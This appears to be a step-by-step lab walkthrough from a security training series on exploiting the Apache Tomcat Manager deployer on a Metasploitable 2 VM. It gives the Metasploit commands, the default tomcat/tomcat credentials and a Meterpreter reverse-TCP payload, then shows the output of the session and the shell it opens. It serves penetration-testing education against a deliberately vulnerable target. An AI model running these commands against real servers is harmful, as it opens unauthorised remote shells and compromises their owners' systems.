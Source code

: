# Tomcat (Apache Tomcat Manager Application Deployer Authenticated Code Execution)

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Use the module

`use exploit/multi/http/tomcat_mgr_deploy`

`set PAYLOAD java/meterpreter/reverse_tcp` (this may be optional if your already have a payload configured when you select the module)

### 3. Check the module options

`options`

```
Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   PATH          /manager         yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### 4. Set the appropriate options

`set RHOSTS 192.168.8.142`

`set RPORT 8180`

`set HttpUsername tomcat`

`set HttpPassword tomcat`

`set LHOST 192.168.8.147`

`set LPORT 4444`

```
RHOSTS => 192.168.8.142
RPORT => 8180
HttpUsername => tomcat
HttpPassword => tomcat
LHOST => 192.168.8.147
LPORT => 4444
```

### 5. Run the exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 6218 bytes as MdTPiApkM.war ...
[*] Executing /MdTPiApkM/uUFB3Y0B.jsp...
[*] Undeploying MdTPiApkM ...
[*] Sending stage (58829 bytes) to 192.168.8.142
[*] Meterpreter session 2 opened (192.168.8.147:4444 -> 192.168.8.142:58303) at 2023-03-28 18:56:15 -0400

meterpreter >
```

### 6. Meterpreter session

Now you have a **meterpreter** session opened. This session will allow you to interact with the target.

```
meterpreter >
```

### 7. Open a shell on the target machine

`shell`

```
meterpreter > shell
Process 1 created.
Channel 1 created.
```

# Video

Video that resumes everything on this laboratory.

![](assets/tomcat.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.